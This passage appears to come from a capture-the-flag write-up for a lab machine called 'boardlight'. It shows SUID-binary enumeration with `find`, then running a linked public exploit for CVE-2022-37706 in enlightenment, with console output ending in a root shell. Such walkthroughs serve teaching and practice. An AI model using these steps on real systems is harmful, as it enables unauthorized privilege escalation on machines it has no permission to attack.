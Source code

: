 Checking our `id`:

```console
larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```

We can use the following command to find SUID/GUID files, or files that we have special permission to run:

```console
larissa@boardlight:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
larissa@boardlight:~$ 

```

One of these files is the `enlightenment` program. Doing some searching on this program reveals a [privilege escalation exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh). Copy the exploit shell and run it:

```console
larissa@boardlight:~$ vi exploit.sh
[INSERT THE EXPLOIT IN VI]
larissa@boardlight:~$ bash exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# whoami
root
# 
```
